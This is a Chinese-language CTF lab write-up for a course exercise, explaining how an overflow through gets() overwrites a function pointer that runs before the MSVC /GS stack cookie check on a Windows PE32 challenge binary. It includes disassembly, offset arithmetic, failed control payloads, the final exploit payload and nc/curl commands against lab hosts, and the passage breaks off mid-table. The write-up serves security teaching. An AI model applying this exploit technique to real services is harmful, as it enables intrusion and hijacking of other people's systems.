






# 6-3 系统层漏洞利用与逆向分析 · GS 缓冲区安全检查利用（G3：函数指针调用早于 Cookie 校验）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-GS缓冲区安全检查利用-G3（sectionID `6697`，课程内 number 24，题目内部编号 `C031-G3-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE32 栈溢出 + MSVC `/GS` 栈 Cookie 绕过） |
| 题目描述 | 靶机 `172.17.29.251:9999` 上运行一个 Windows 控制台服务，banner 会打印 `Buffer @ <addr>` 与 `Fn ptr @ <addr>`；附件 `challenge.exe` 就是它的可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 取得**一次性凭证**（有效期 10 分钟），再用凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=9047）题干原文要点：

> * 运行题目的靶机地址：`172.17.29.251:9999`
> * 在"实验环境"中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。
> 找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：
> ```
> nc 172.17.29.251:9999
> ```
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：
> ```
> curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"
> ```

Note：本题属于 **`C031` 系列**，与同系列 6-1（G1）、6-2（G2）共用同一套「`/GS` 开启、地址固定」的防护组合（`DllCharacteristics = 0x8000`，**不含 `NX_COMPAT`**，所以考点始终是栈 Cookie 而不是 DEP）。但 G3 的绕过方式与 G1/G2 **完全不同**：

- G1 靠程序**主动泄漏**（`Buffer @` + `Cookie :`）算出 `stored = cookie ^ EBP` 再**回填**，是"把保护机制的公式反着用"；
- G2 靠**格式串漏洞**读出本帧 Cookie 再回填，是"把写操作变成可预测"；
- **G3 什么都不用泄漏、什么都不用回填**：`main` 把一个函数指针放在 `[EBP-8]`，并在 epilogue 的 `__security_check_cookie` **之前**就 `call dword [ebp-8]`。于是只要改写这个指针、**完全不碰 `[EBP-4]` 的 Cookie**，控制流在校验之前就已经被劫持走了。这是"保护点与使用点的**时序错位**"，也是本关卡的题眼。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6697`（课程内 number 24）；平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9027 / 9029 / 9031）+ 1 道多选（9033）+ 1 道 Flag 填空（9047），题面共 5 题；题面接口返回 `isResubmit=false`（平台不提供官方重答入口） |
| 靶机实例 | envID `1201`（实验环境名 `C031-G3-F`），podID `kbbk387a42r7d9sn1vlsb6dk9`；交付时 `state=Running`（容器 `s-149897`），未销毁 |
| 端口映射（实测 `portInfos`） | `172.17.0.13:14642 → 22`（SSH）、**`172.17.0.13:14643 → 80`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:14643/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.29.251:9999`（**裸 TCP，非 HTTP**，题面给的 `nc` 入口），实测 banner 三行：`Buffer @ 0019FEE0\r\nFn ptr @ 0019FF20\r\nEnter your name: ` |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，**116736 B**，MD5 **`fef427ad4cc25474d960db69e94223bd`**（与 Lead 独立下载的 MD5 一致）；节区 `.text / .rdata / .data / .fptable`，`ImageBase = 0x400000`，`EntryPoint = 0x4013C2` |
| 章节实验环境 | 本题按 AGENTS.md 记录的 `lab/vm` 接口返回 `environment: null`，实例统一在「我的实例」页管理，因此改用 `environments` / `instances` 接口与页面核对（截图 11） |
| 本机工具 | 无 pwntools / pefile / Ghidra / unicorn；用 Apple LLVM `objdump`（`/usr/bin/objdump`）+ Python 3.14 原生 `socket` / `struct` 自写 PE 头与导入表解析完成全部静态与动态验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | 4 道选择题**提交前已独立判定并落盘**（`.local/process/6-3-answers-rationale.md`，落盘 07:37:48Z、提交 07:37:51Z），判定 **9027=A、9029=D、9031=B、9033=A+B+C+D**，与 Lead 独立判定完全一致；提交后 `answerHistory` 中 5/5 全部 `isCorrect=true`。按惯例本文不展开选择题解析 |

## 解题过程

### 1. 静态侦察：`DllCharacteristics 0x8000`、唯一导出 `get_flag`、Cookie 地址 `0x41d040`（截图 09）

先用本机脚本解析 PE 头、导出表、导入表与数据段字符串（原始输出 `.local/process/6-3-scripts/logs/13-pe-info.txt`）：

```console
$ python3 .local/process/6-3-scripts/pe_info.py
file            : .local/process/6-3-scripts/files/challenge.exe (116736 bytes)
MD5             : fef427ad4cc25474d960db69e94223bd
machine/format  : PE32 i386, magic=0x010b, ImageBase=0x00400000, EntryPoint=0x004013c2
sections        : .text, .rdata, .data, .fptable
DllCharacteristics = 0x8000
   NX_COMPAT (0x0100)   = False   <-- 未设置
   DYNAMIC_BASE (0x0040)= False
   GUARD_CF (0x4000)    = False
Load Config     : RVA 0x1b9f8, Size 0x40 (192)
SecurityCookie  : 0x0041d040   <-- Load Config 里的全局 /GS Cookie 地址
global cookie bytes at 0x0041d040 = 4e e6 40 bb (链接器默认值; 加载时由 __security_init_cookie 随机化)
exports         : NumberOfFunctions=1 NumberOfNames=1
   export get_flag   -> RVA 0x1000 (VA 0x00401000)
data strings    :
   0x0041d000 b'No winner.'
   0x0041d00c b'Buffer @ %p\n'
   0x0041d01c b'Fn ptr @ %p\n'
   0x0041d02c b'Enter your name: '
```

四条关键结论：

1. `DllCharacteristics = 0x8000` = 仅 `TERMINAL_SERVER_AWARE`，**没有 `NX_COMPAT`、没有 `DYNAMICBASE`、没有 `GUARD_CF`**。⇒ 本题考点不是 DEP；地址固定，`0x401000` 这类静态地址可以直接写进 payload。`0x8000` 与同系列 6-1/6-2/6-4 完全一致；
2. `ImageBase = 0x400000` 且导出表唯一一项 `get_flag` 的 RVA 是 `0x1000` ⇒ 静态地址 **`0x00401000`**；
3. `Load configuration` 登记了 `SecurityCookie = 0x41d040`，且 `0x41d040` 处的文件字节是 MSVC 经典占位值 `4E E6 40 BB`（`0xBB40E64E`），运行期由 `__security_init_cookie` 随机化 ⇒ CRT 启用了 `/GS`；
4. 数据段里 `"No winner."`（`0x41d000`）与 `"Fn ptr @ %p\n"`（`0x41d01c`）这两条字符串，分别预告了"默认函数指针指向谁"和"程序会泄漏函数指针地址"——它们是步骤 3 定位题眼的线索。


### 2. 反汇编：薄包装 `0x401020` 无 Cookie，`main` 的 Cookie 在 `[EBP-4]`、函数指针在 `[EBP-8]`（截图 09）

按**地址范围**完整反汇编（原始输出 `.local/process/6-3-scripts/logs/14-objdump-main.txt`，清理符号后缀版 `14-objdump-main-clean.txt`；渲染稿用的是清理版）：

```console
$ objdump -D --start-address=0x401000 --stop-address=0x4010f0 files/challenge.exe
00401000:
  401000: 55                pushl %ebp
  401001: 8b ec             movl  %esp, %ebp
  401003: ff 15 30 61 41 00 calll *0x416130        ; getflag.dll!GetFlag() → 打印一次性 token
  401009: 6a 00             pushl $0x0
  40100b: ff 15 08 60 41 00 calll *0x416008        ; KERNEL32!ExitProcess(0)
  401011: 90                nop
  401012: 5d                popl  %ebp
  401013: c3                retl                       ; ← 永远执行不到

00401020:                                            ; 薄包装（默认函数指针指向它）
  401020: 55                pushl %ebp
  401021: 8b ec             movl  %esp, %ebp
  401023: 68 00 d0 41 00    pushl $0x41d000           ; "No winner."
  401028: e8 12 35 00 00    calll 0x40453f            ; printf
  40102d: 83 c4 04          addl  $0x4, %esp
  401030: 5d                popl  %ebp
  401031: c3                retl

00401040:                                            ; main
  401040: 55                pushl %ebp
  401041: 8b ec             movl  %esp, %ebp
  401043: 83 ec 48          subl  $0x48, %esp        ; 局部区 = 0x48 = 72 字节
  401046: a1 40 d0 41 00    movl  0x41d040, %eax     ; 读全局 __security_cookie
  40104b: 33 c5             xorl  %ebp, %eax
  40104d: 89 45 fc          movl  %eax, -0x4(%ebp)     ; ★ Cookie 存于 [EBP-4]
  401050: c7 45 f8 20 10 40 00  movl $0x401020, -0x8(%ebp)  ; ★ 函数指针存于 [EBP-8]，默认指向薄包装
  ...
  4010a2: 8d 45 b8          leal  -0x48(%ebp), %eax
  4010a5: 50                pushl %eax
  4010a6: 68 0c d0 41 00    pushl $0x41d00c           ; "Buffer @ %p\n"
  4010ab: e8 80 00 00 00    calll 0x401130            ; printf   ← 主动泄漏缓冲区地址
  4010b3: 8d 4d f8          leal  -0x8(%ebp), %ecx
  4010b6: 51                pushl %ecx
  4010b7: 68 1c d0 41 00    pushl $0x41d01c           ; "Fn ptr @ %p\n"
  4010bc: e8 6f 00 00 00    calll 0x401130            ; printf   ← 主动泄漏函数指针地址
  4010c4: 68 2c d0 41 00    pushl $0x41d02c           ; "Enter your name: "
  4010c9: e8 62 00 00 00    calll 0x401130            ; printf
  4010d1: 8d 55 b8          leal  -0x48(%ebp), %edx
  4010d4: 52                pushl %edx
  4010d5: e8 2b 55 00 00    calll 0x406605            ; ★ gets(buf=[EBP-0x48]) —— 无界读入，溢出点
  4010da: 83 c4 04          addl  $0x4, %esp
  4010dd: ff 55 f8          calll *-0x8(%ebp)         ; ★★ 函数指针调用 @0x4010dd
  4010e0: 33 c0             xorl  %eax, %eax
  4010e2: 8b 4d fc          movl  -0x4(%ebp), %ecx     ; ┐ epilogue
  4010e5: 33 cd             xorl  %ebp, %ecx           ; │ 取回 Cookie 并异或 EBP 还原
  4010e7: e8 7e 00 00 00    calll 0x40116a            ; ┘ ★ __security_check_cookie @0x4010e7
  4010ec: 8b e5             movl  %ebp, %esp
  4010ee: 5d                popl  %ebp
  4010ef: c3                retl

0040116a:  ; __security_check_cookie
  40116a: 3b 0d 40 d0 41 00 cmpl  0x41d040, %ecx      ; 与全局 __security_cookie 比较
  401170: 75 01             jne   0x401173
  401172: c3                retl
  401173: e9 7c 02 00 00    jmp   0x4013f4            ; __report_gsfailure → 终止进程
```

三条必须钉死的结论：

1. **薄包装 `0x401020` 没有任何 `/GS` 指令**：整个函数只有 6 条指令（`push ebp / mov ebp,esp / push 0x41d000 / call printf / add esp,4 / pop ebp / ret`），**既没有** `mov eax,[0x41d040]; xor eax,ebp; mov [ebp-4],eax`，**也没有** `call __security_check_cookie`。它是"被 `/GS` 启发式豁免的轻量函数"的干净样本——这也正是同批选择题 9033-B 的实证；
2. **`main` 的两个关键槽位是紧邻的**：Cookie 在 `[EBP-4]`（`0x401046-0x40104d` 写入），函数指针在 `[EBP-8]`（`0x401050` 写入 `0x401020`）。二者只差 4 字节；
3. **时序错位是本题的核心**：`call dword [ebp-8]` 在 **`0x4010dd`**，而 `__security_check_cookie` 的调用在 **`0x4010e7`**——函数指针调用**早于** Cookie 校验 10 个字节。校验代码位于 epilogue、在 `ret` 之前；只要在 `0x4010dd` 就把控制流带走，`0x4010e7` 那一行根本没有机会被执行。

**偏移推导（自己算，不照抄题面）**：

```text
缓冲区首址      = EBP - 0x48      （gets 的写入起点）
函数指针槽      = [EBP-8]         （prologue 写入 0x401020）
Cookie 槽       = [EBP-4]         （prologue 写入 __security_cookie ^ EBP）
saved EBP       = [EBP]
saved 返回地址  = [EBP+4]

缓冲区首字节 → 函数指针 [EBP-8]  = 0x48 - 0x08 = 0x40 = 64
缓冲区首字节 → Cookie   [EBP-4]  = 0x48 - 0x04 = 0x44 = 68
```

也就是说：**偏移 64–67 是函数指针，偏移 68–71 才是 Cookie**，两者相邻但不重叠。这就是"可以只改指针、不动 Cookie"的算术基础。

> 一个读 `objdump` 的坑（记录在原始记录 3-8）：该 PE 的符号表里只有 `get_flag` 一个函数符号（RVA 0x1000），Apple `llvm-objdump` 会把 `.text` 内**所有**地址都标成 `<get_flag+0xNNN>`——我第一次用 `--start-address=0x401020` 时就被误导，以为 `0x401020` 处那个打印 `"No winner."` 的薄包装就是 `get_flag`。改用 `--start-address=0x401000` 完整反汇编并解析导入表后才定案。**按地址阅读，别按符号名阅读**；渲染稿里用的是清理过符号后缀的版本。

### 3. `get_flag@0x401000` 其实是导入 thunk：`ExitProcess(0)` 让 epilogue 永不执行（截图 09）

这是本题原理上最关键的一点，也是 Lead 任务书里没有写到、由静态复核补充的：

```console
$ python3 .local/process/6-3-scripts/pe_info.py     # 导入表部分
导入表:
  DLL getflag.dll  -> 唯一导入 GetFlag     (IAT 槽 VA 0x00416130)
  DLL KERNEL32.dll -> ExitProcess          (IAT 槽 VA 0x00416008) 等 75 个
get_flag@0x401000:
  401000: push ebp
  401001: mov ebp,esp
  401003: call dword ptr [0x416130]    ; getflag.dll!GetFlag() —— 真正打印 token 的逻辑在注入的 DLL 里
  401009: push 0
  40100b: call dword ptr [0x416008]    ; ExitProcess(0)
  401011: nop; 401012: pop ebp; 401013: ret
```

`get_flag` **不返回**：它调完 `GetFlag()` 打印凭证后立刻 `ExitProcess(0)`，进程直接终止。⇒ 被劫持跳过来以后，`main` 的 epilogue 连**到达**的机会都没有，`__security_check_cookie` 自然永不执行。这比"函数指针调用在 epilogue 之前"是更强的表述：不是"校验前先被劫持"，而是"**校验所在的整段代码都不会被执行**"。

### 4. 靶机连通性与 banner：两个泄漏地址相差正好 0x40（截图 01）

```console
$ python3 .local/process/6-3-scripts/exp.py raw
Buffer @ 0019FEE0
Fn ptr @ 0019FF20
Enter your name:
```

`0x0019FF20 - 0x0019FEE0 = 0x40 = 64`，与静态分析的 `[EBP-8] - [EBP-0x48] = 64` **完全吻合**——这一步把"偏移 64"从反汇编的推断变成了运行期的实测事实。


### 5. 失败对照四条：先把因果钉死，并且分清"哪一条才证明 `/GS` 生效"（截图 02、03、04、05）

每条对照独立开一条 TCP 连接（脚本 `.local/process/6-3-scripts/exp.py <mode>`）：

| # | 模式 | payload（自 `buf` 起算） | 预期 | 实测 | 日志 / 截图 |
| --- | --- | --- | --- | --- | --- |
| ① | `off68` | `A*68 + p32(0x401000)` | 偏移写错：函数指针落点变成 saved EBP，同时把 `[EBP-4]` 的 Cookie 覆盖成 `\x00\x10@\x00` | 在 `Enter your name:` 之后**直接断开**，连薄包装本该输出的 `No winner.` 都没有 ⇒ `__security_check_cookie` 失败、走 `__report_gsfailure` | `02-fail-offset68.txt` / **截图 02** |
| ② | `badaddr` | `A*64 + p32(0x41414141)` | Cookie 未动（校验本可通过），但 `call dword [ebp-8]` 跳到未映射地址 | 直接断开、无任何输出 ⇒ "命中函数指针"是必要条件 | `03-fail-badaddr.txt` / **截图 03** |
| ③ | `fill72` | `A*72` | 写满 `sub esp,0x48` 全部局部区：`buf+64..67` 把函数指针覆盖成 `0x41414141`，`buf+68..71` 把 Cookie 覆盖成 `0x41414141` | 直接断开、无输出（**崩在函数指针调用处的访问违例上，还没走到 Cookie 校验**） | `04-fail-fill72.txt` / **截图 04** |
| ④ | `cookieonly` | `A*64 + p32(0x401020) + b"XXXX"` | 函数指针**保持合法**（仍指向薄包装），只把 Cookie 覆盖成 `XXXX` | **先正常打印 `No winner.`**（说明函数指针确实被正常 call 了、控制流没被劫持），随后 epilogue 校验失败、进程终止 ⇒ 拿不到 token | `04b-fail-cookieonly.txt` / **截图 05** |

```console
$ python3 .local/process/6-3-scripts/exp.py off68
[*] CASE: FAIL-1  A*68 + p32(get_flag)  (偏移 68 -> 覆盖 [EBP-4] Cookie)
[*] payload (72 bytes): b'AAAA…AAAA\x00\x10@\x00'
---- response ----
---- /response ----
[-] no token found

$ python3 .local/process/6-3-scripts/exp.py badaddr
[*] CASE: FAIL-2  A*64 + p32(0x41414141)  (函数指针 -> 未映射地址)
[-] no token found

$ python3 .local/process/6-3-scripts/exp.py fill72
[*] CASE: FAIL-3  A*72  (写满 0x48, 覆盖 [EBP-4] Cookie)
[-] no token found

$ python3 .local/process/6-3-scripts/exp.py cookieonly
[*] CASE: FAIL-4  A*64 + p32(0x401020) + b'XXXX'  (只坏 Cookie, 函数指针保持合法)
---- response ----
No winner.
---- /response ----
[-] no token found
```

**四条对照的分工（③ 的口径在实测后做过修正，这里如实写明）**：

- ①②③④ 共同交代了"**连接静默断开**"就是进程被终止的外部表现（`0xC0000409 STATUS_STACK_BUFFER_OVERRUN` 或访问违例）。①③ 连一行输出都没有，说明这题的 printf 输出是**块缓冲**的，`__report_gsfailure` 之前没有 flush 动作，缓冲区里的内容随进程一起消失；而 ④ 的 `No winner.` 能出来，是因为它走完了 `0x4010dd` 那次调用并正常返回到了下一行（`printf` 的缓冲在这条路径上被后续动作冲掉了）。
- **③ 不能证明 `/GS` 生效**：它把函数指针与 Cookie **一起**破坏了，进程崩在 `0x4010dd` 的访问违例上，根本没走到校验。它只证明了"双重破坏必崩"。
- **真正证明 `/GS` 本身生效的是 ④**：函数指针保持合法（`No winner.` 确实被打出来 ⇒ 函数指针被正常 `call`、控制流没被劫持），但 `[EBP-4]` 被动过、校验必然失败，于是进程在打印之后被终止、拿不到 token。④ 与正式利用（只改函数指针、Cookie 零字节不动）构成完整的**正反对照**。
- ② 说明"改写函数指针"是拿到 token 的**必要**条件（不改就跳不到 `get_flag`）；① 说明偏移必须精确到字节（差 4 字节就从"改指针"变成"改 saved EBP + 顺带毁 Cookie"）。


### 6. 正式利用：`b"A"*64 + p32(0x00401000)`，只写到 `[EBP-5]`（截图 06）

payload 只有 68 字节，比失败对照①短 4 字节——这 4 字节的差别就是"劫持成功"与"`/GS` 拦截"的分界：

```python
GET_FLAG = 0x00401000                       # 导出表 get_flag RVA 0x1000 + ImageBase 0x400000
payload  = b"A" * 64 + p32(GET_FLAG)        # 68 字节：只写到 [EBP-8]+3 = [EBP-5]
```

栈布局逐格核对：

```text
偏移            长度  内容                落点                作用
